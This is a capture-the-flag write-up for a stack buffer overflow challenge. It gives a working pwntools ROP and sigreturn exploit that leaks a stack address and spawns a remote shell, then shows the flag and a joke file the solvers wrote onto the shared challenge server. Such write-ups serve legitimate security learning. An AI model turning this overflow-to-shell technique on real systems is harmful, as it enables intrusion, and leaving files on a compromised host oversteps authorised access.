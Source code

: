 # pwn / classic

> Points: 100

## Question

> A timeless classic.
>
> nc chall.uwc.tf 2005

### Provided Files

- [`main`](./main)

## Solution

Analyzing the binary, we find there is a buffer overflow vulnerability.
Obviously, the best way to solve this is to go complete overkill
and generate a shell somehow, and then `cat flag.txt`.

Since this will be a somewhat complicated ROP chain,
it's easier to just do this with `pwntools`.
One member of the team pulled some black magic out
(pictured below) and pulled it off:

```py
#!/usr/bin/env python3
from pwn import *
import sys

context.clear(arch="amd64", endian="little", os="linux")
p = remote("chall.uwc.tf", "2005")
# p = process("./main")
# gdb.attach(p.pid)

elf = ELF("./main")
rop = ROP(elf)

# symbols
SYM_ENVIRON = elf.symbols["environ"]
SYM_PUTS = elf.symbols["puts"]
SYM_MAIN = elf.symbols["main"]

# rop gadgets
OFFSET = b"A" * 264
POP_RAX = rop.find_gadget(["pop rax", "ret"])[0]
POP_RDI = rop.find_gadget(["pop rdi", "ret"])[0]
SYSCALL = rop.find_gadget(["syscall"])[0]

# leak stack offset with environ
chain = OFFSET + p64(POP_RDI) + p64(SYM_ENVIRON) + p64(SYM_PUTS) + p64(SYM_MAIN)
p.sendline(chain)
p.recvline() # read garbage
received = p.recvline().strip()
leak = u64(received.ljust(8, b"\x00"))
leak = leak - 320 + 32

magic = 272 # offset from rop chain to /bin/sh
cmd = b'/bin/sh\0'
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = leak + magic            # /bin/sh
frame.rsi = leak + magic + len(cmd) # argv
frame.rsp = leak                    # some stack space
frame.rip = SYSCALL

# perform exploit
chain = OFFSET + p64(POP_RAX) + p64(0xf) + p64(SYSCALL) + bytes(frame)
argv = p64(leak + magic) + p64(0)
p.sendline(chain + cmd + argv)
p.interactive()
```

We can now get the flag, in the easiest way possible.

```text
$ ./exploit.py
[+] Opening connection to chall.uwc.tf on port 2005: Done
[*] './main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 122 cached gadgets for './main'
[*] Switching to interactive mode
/work # $ cat flag.txt
cat flag.txt
uwctf{classic_overflow_11922e1d1d2ed8f2}
/work # $ echo "uwctf{om3ga_was_here_lmao}" > best_flag_of_all_time.txt
echo "uwctf{om3ga_was_here_lmao}" > best_flag_of_all_time.txt
```

Now, where are those bonus points?

### Flag

`uwctf{classic_overflow_11922e1d1d2ed8f2}`
